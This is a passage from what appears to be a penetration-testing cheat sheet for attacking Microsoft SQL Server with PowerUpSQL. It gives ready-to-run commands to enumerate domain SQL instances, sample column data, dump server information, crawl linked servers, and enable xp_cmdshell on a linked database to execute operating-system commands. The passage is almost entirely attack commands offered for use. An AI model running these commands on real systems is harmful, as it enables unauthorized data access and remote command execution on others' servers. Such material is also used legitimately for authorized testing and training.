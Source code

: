 ```ps1
Get-SQLInstanceDomain | Get-SQLTable -DatabaseName <DBNameFromGet-SQLDatabaseCommand> -NoDefaults
Get Column Details from a Table
Get-SQLInstanceDomain | Get-SQLColumn -DatabaseName <DBName> -TableName <TableName>
```


### Gather 5 Entries from Each Column


```ps1
Get-SQLInstanceDomain | Get-SQLColumnSampleData -Keywords "<columnname1,columnname2,columnname3,columnname4,columnname5>" -Verbose -SampleSize 5
```

### Gather 5 Entries from a Specific Table


```ps1
Get-SQLQuery -Instance "<DBSERVERNAME\DBInstance>" -Query 'select TOP 5 * from <DatabaseName>.dbo.<TableName>'
```


### Dump common information from server to files

```ps1
Invoke-SQLDumpInfo -Verbose -Instance SQLSERVER1\Instance1 -csv
```

## Linked Database

### Crawl Links for Instances in the Domain 
A Valid Link Will Be Identified by the DatabaseLinkName Field in the Results


```ps1
Get-SQLInstanceDomain | Get-SQLServerLink -Verbose
```

### Crawl Links for a Specific Instance

```ps1
Get-SQLServerLinkCrawl -Instance "<DBSERVERNAME\DBInstance>" -Verbose
```

### Query Version of Linked Database


```ps1
Get-SQLQuery -Instance "<DBSERVERNAME\DBInstance>" -Query "select * from openquery(`"<DBSERVERNAME\DBInstance>`",'select @@version')" -Verbose
```

### Execute Procedure on Linked Database

```ps1
SQL> EXECUTE('EXEC sp_configure ''show advanced options'',1') at "linked.database.local";
SQL> EXECUTE('RECONFIGURE') at "linked.database.local";
SQL> EXECUTE('EXEC sp_configure ''xp_cmdshell'',1;') at "linked.database.local";
SQL> EXECUTE('RECONFIGURE') at "linked.database.local";
SQL> EXECUTE('exec xp_cmdshell whoami') at "linked.database.local";
```
